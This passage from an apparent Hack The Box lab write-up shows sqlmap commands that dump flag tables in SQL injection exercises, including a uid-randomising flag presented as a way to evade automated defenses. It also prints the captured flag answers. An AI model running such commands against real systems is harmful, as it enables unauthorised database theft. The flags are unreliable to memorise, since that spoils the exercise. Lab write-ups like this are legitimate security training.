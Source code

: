 We can use the `--randomize=uid` flag to randomize the value of a specific parameter, in this case we are randomizing the `uid` value, making it harder to detect for automated defenses.

We get this output:

```
Database: testdb
Table: flag9
[1 entry]
+----+---------------------------------------+
| id | content                               |
+----+---------------------------------------+
| 1  | HTB{700_much_r4nd0mn355_f0r_my_74573} |
+----+---------------------------------------+
```

Flag is `HTB{700_much_r4nd0mn355_f0r_my_74573}`

## Case 10
---
![Pasted image 20250204175417.png](../../../../IMAGES/Pasted%20image%2020250204175417.png)

Let's use this:

```
python3 sqlmap.py -r Case10.txt -T flag10 --dump --risk=3 --level=5 --batch
```

Simple sqlmap command, no need to explain further, this is the output:

```
Database: testdb
Table: flag10
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{y37_4n07h3r_r4nd0m1z3} |
+----+----------------------------+
```

Flag is `HTB{y37_4n07h3r_r4nd0m1z3}`

## Case 11
---
![Pasted image 20250204175426.png](../../../../IMAGES/Pasted%20image%2020250204175426.png)